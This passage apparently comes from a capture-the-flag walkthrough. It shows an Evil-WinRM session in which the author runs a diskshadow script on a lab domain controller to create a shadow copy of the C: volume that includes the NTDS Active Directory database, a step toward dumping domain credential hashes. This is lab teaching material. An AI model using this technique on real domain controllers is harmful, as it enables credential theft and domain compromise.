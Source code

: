 I’ll create this script on my computer and then use `unix2dos` to format it for Windows:

```

oxdf@hacky$ vim backup
oxdf@hacky$ unix2dos backup 
unix2dos: converting file backup to DOS format... 

```

From my shell, I’ll upload the script to where I’m working, `C:\ProgramData`, as `backup`. I’ll run `diskshadow` passing it the script:

```
*Evil-WinRM* PS C:\programdata> diskshadow /s backup
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  CICADA-DC,  9/27/2024 1:07:11 AM
-> set verbose on
-> set metadata C:\Windows\Temp\0xdf.cab
-> set context clientaccessible
-> begin backup
-> add volume C: alias cdrive
-> create
Component "\BCD\BCD" from writer "ASR Writer" is excluded from backup,
because it requires volume  which is not in the shadow copy set.
The writer "ASR Writer" is now entirely excluded from the backup because the top-level
non selectable component "\BCD\BCD" is excluded.
* Including writer "Task Scheduler Writer":
        + Adding component: \TasksStore
* Including writer "VSS Metadata Store Writer":
        + Adding component: \WriterMetadataStore
* Including writer "Performance Counters Writer":
        + Adding component: \PerformanceCounters
* Including writer "System Writer":
        + Adding component: \System Files
        + Adding component: \Win32 Services Files
* Including writer "WMI Writer":
        + Adding component: \WMI
* Including writer "DFS Replication service writer":
        + Adding component: \SYSVOL\760C4715-6766-4D86-B0E5-4668258AC503-E68080D4-A0B8-4ED9-AB8A-A7FFD4F0BA03
* Including writer "NTDS":
        + Adding component: \C:_Windows_NTDS\ntds
* Including writer "COM+ REGDB Writer":
        + Adding component: \COM+ REGDB
* Including writer "Registry Writer":
        + Adding component: \Registry

Alias cdrive for shadow ID {10b9bb82-275d-4a14-b0fe-727209b03567} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {6747b0e5-a9d3-4b68-96e5-28574708abad} set as environment variable.
Inserted file Manifest.xml into .cab file 0xdf.cab
Inserted file BCDocument.xml into .cab file 0xdf.cab
Inserted file WM0.xml into .cab file 0xdf.cab
Inserted file WM1.xml into .cab file 0xdf.cab
Inserted file WM2.xml into .cab file 0xdf.cab
Inserted file WM3.xml into .cab file 0xdf.cab
Inserted file WM4.xml into .cab file 0xdf.cab
Inserted file WM5.xml into .cab file 0xdf.cab
Inserted file WM6.xml into .cab file 0xdf.cab
Inserted file WM7.xml into .cab file 0xdf.cab
Inserted file WM8.xml into .cab file 0xdf.cab
Inserted file WM9.xml into .cab file 0xdf.cab
Inserted file Dis4854.tmp into .cab file 0xdf.cab
```